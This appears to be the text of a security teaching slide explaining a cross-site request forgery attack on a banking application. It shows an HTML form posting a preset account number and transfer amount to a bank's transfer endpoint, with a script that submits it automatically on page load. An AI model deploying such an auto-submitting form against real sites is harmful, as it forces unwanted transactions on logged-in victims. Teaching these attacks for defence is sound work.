

Anatomy of an CSRF Attack
Consider a consumer banking application that contains the following form

<form action="https://bank.com/Transfer.asp" method="POST" id="form1">
<p>Account Num: <input type="text" name="acct" value="13243"/></p>
<p>Transfer Amt: <input type="text" name="amount" value="1000" /></p>
</form>
<script>document.getElementById(‘form1’).submit(); </script>